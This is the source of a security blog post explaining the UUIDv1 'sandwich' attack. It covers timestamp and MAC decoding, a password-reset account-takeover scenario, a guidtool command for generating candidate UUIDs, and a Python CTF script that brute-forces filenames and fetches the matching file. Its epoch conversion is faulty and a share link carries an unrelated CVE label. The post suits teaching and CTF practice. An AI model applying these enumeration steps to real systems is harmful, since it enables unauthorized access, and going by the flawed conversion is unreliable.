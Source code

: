 ```yaml
---
title: "UUID Sandwich Exploitation"
layout: post
tags: [hacking, cybersecurity]
image: /assets/images/uuidv1.png

---
```


### UUID Sandwich Attack – Version 1

A **UUID** (Universally Unique Identifier), also known as **GUID**, has both vulnerable versions and stronger iterations that have emerged over time. These randomly generated unique values are produced at micro- or nanosecond precision. Although the chance of duplication is extremely low, it is never truly zero. Identical values *can* be generated, though detecting them is extremely difficult. The probability of duplication is low but never zero.

**Example UUID**:  
```
f81d4fae-7dec-11d0-a765-00a0c91e6bf6
```

### Exploitation

The **Sandwich Attack** usually appears in **UUID version 1**, which relies on time and MAC address for generation. This can lead to vulnerabilities such as **Account Takeover, BOLA, or IDOR**. UUIDv1 values produced within the same timestamp can be duplicated, enabling exploitation.

On Linux, you can generate values with the `uuid` command.

UUID v1: `6ea0f896-3144-11ef-a367-005056260027` & `6f03f496-3144-11ef-86bc-005056260027`  
Here, the values `a367` and `86bc` differ, but the MAC portion `005056260027` remains constant.

UUID v4: `60a0cf20-f5a8-4ea2-9469-d4269f0a5bc8` & `62f4a612-6d64-48a2-a271-26217702999e`  
Here the difference is complete. UUIDv4 offers ~99.9% safety, but UUIDv1 significantly increases risk.

For exploitation, see Burp Suite extension:  
https://portswigger.net/bappstore/65f32f209a72480ea5f1a0dac4f38248  

Also reference: https://datatracker.ietf.org/doc/html/rfc4122  

![uuidv1](/assets/images/uuidv1.png)

### 10 Sequential Generations

```js
f2c6e440-3145-11ef-8465-0800200c9a66
f2c6e441-3145-11ef-8465-0800200c9a66
f2c6e442-3145-11ef-8465-0800200c9a66
f2c6e443-3145-11ef-8465-0800200c9a66
f2c6e444-3145-11ef-8465-0800200c9a66
f2c6e445-3145-11ef-8465-0800200c9a66
f2c6e446-3145-11ef-8465-0800200c9a66
f2c6e447-3145-11ef-8465-0800200c9a66
f2c6e448-3145-11ef-8465-0800200c9a66
f2c6e449-3145-11ef-8465-0800200c9a66
```

As seen, time is highly sensitive:

`Timestamp: 139384289967400006`  
`Timestamp: 139384289967400007`  

The changing part `f2c6e447-3145-11ef` encodes the time. The MAC portion `08:00:20:0c:9a:66` often remains static.

### UUID Extraction

Example UUID: `5c1dba54-ee3e-11ee-a951-0242ac120002`  
Time portion: `1eeee3e5c1dba54`  

![uuid extract](/assets/images/UUID2.jpg)

Decode timestamp:  

```js
printf "%d\n" 0x1eeee3e5c1dba54
139310590095899220
```

Convert to decimal:  

```sh
echo "scale=9; 139310590095899220 / 10^8" | bc
1393105900.958992200
```

This corresponds to Epoch time `Saturday, 30 March 2024 02:36:49`.  

Using GuidReaper:  

```js
GuidReaper -d "5c1dba54-ee3e-11ee-a951-0242ac120002"
GUID version: 1
Time: 2024-03-30 02:36:49.589922
Timestamp: 139310590095899220
Node: 2485377957890
MAC address: 02:42:ac:12:00:02
Clock sequence: 10577
```

Reverse engineering UUIDv1 allows exploitation using **Time Manipulation**.

### Exploitation Scenario

1. Suppose the system generates a password reset link using UUID.  
2. Attacker account: `uuid@attack.com`, victim account: `victim@attack.com`.  
3. Both trigger password reset at the same time.  

Victim link:  

```php
https://server/reset_password?reset=dc464b70-314a-11ef-8465-0800200c9a66&user=victim@attack.com
```  
Time: 2024-06-23 10:25:06.471000  

Attacker link:  

```php
https://server/reset_password?reset=de7a4270-314a-11ef-8465-0800200c9a66&user=uuid@attack.com
```  
Time: 2024-06-23 10:25:10.167000  

A 4-second difference shows how concurrency flaws could enable account takeover.  

With GuidTool, UUIDs can be generated for specific timestamps:  

```js
guidtool.py 667b8570-0d84-11ef-9ed0-0800200c9a66 -t "1923-10-29 20:30:00" -p 1 
```

This produces many values for a target time. Such weaknesses can lead to **BOLA**, **IDOR**, or **Account Takeover**.  

See: [Uuid-Exploitation](https://github.com/cagrieser/Uuid-Exploitation)  

### CTF Scenario

In an IguCTF challenge, we exploited UUIDv1 Sandwich to access unauthorized files and retrieve a flag.  

![igu cyber](/assets/images/IguCyber.png)

Hashing filenames locally avoids server overload. Example script:  

```py
import hashlib
from colorama import init, Fore
import PyPDF2
import requests
import io 

init(autoreset=True)

target_hash = 'def3c4c32117683fcffad14e3b2a9b5d'

def md5_hash(text):
    return hashlib.md5(text.encode()).hexdigest()

def get_pdf_metadata_from_url(pdf_url):
    response = requests.get(pdf_url)
    if response.status_code == 200:
        pdf_content = response.content
        pdf_file = PyPDF2.PdfFileReader(io.BytesIO(pdf_content))
        return pdf_file.getDocumentInfo()
    return None

with open('FullAttackUUID.txt', 'r') as file:
    for line in file:
        filename = line.strip() + '.pdf'
        if md5_hash(filename) == target_hash:
            print(Fore.GREEN + f"Match found: {filename}")
            url = f"https://demindensimdiyegeldim.igusiber.com.tr/{filename}"
            metadata = get_pdf_metadata_from_url(url)
            if metadata:
                for key, value in metadata.items():
                    print(f"{key}: {value}")
            break
```

### Final

UUIDv1 is predictable due to timestamps and MAC addresses, making it exploitable. UUIDv4 is safer, but UUIDv1 remains in use, creating risks.

![exp](/assets/images/exp.png)  

---
<!-- Share Buttons Start -->
<div class="share-buttons">
  <p>Share this post:</p>
  <a class="share-btn twitter" href="https://twitter.com/intent/tweet?text=CVE-2025-29927: UUID Sandwich Exploitation&url={{ page.url | absolute_url }}" target="_blank">Twitter</a>
  <a class="share-btn facebook" href="https://www.facebook.com/sharer/sharer.php?u={{ page.url | absolute_url }}" target="_blank">Facebook</a>
  <a class="share-btn reddit" href="https://www.reddit.com/submit?url={{ page.url | absolute_url }}&title=UUID Sandwich Exploitation" target="_blank">Reddit</a>
</div>

<style>
.share-buttons {
  margin-top: 30px;
  font-family: sans-serif;
}
.share-buttons p {
  margin-bottom: 8px;
  font-weight: bold;
}
.share-buttons .share-btn {
  display: inline-block;
  margin-right: 8px;
  padding: 8px 14px;
  color: #fff;
  text-decoration: none;
  border-radius: 5px;
  font-size: 14px;
  transition: opacity 0.2s;
}
.share-buttons .share-btn:hover {
  opacity: 0.8;
}
.share-buttons .twitter { background: #1da1f2; }
.share-buttons .facebook { background: #4267B2; }
.share-buttons .reddit { background: #ff4500; }
</style>
<!-- Share Buttons End -->

## Acknowledgment

I would like to sincerely thank [Çağrı Eser](https://cagrieser.com/) for his invaluable contributions and support.  

You can connect with him on [LinkedIn](https://www.linkedin.com/in/cagrieser/).



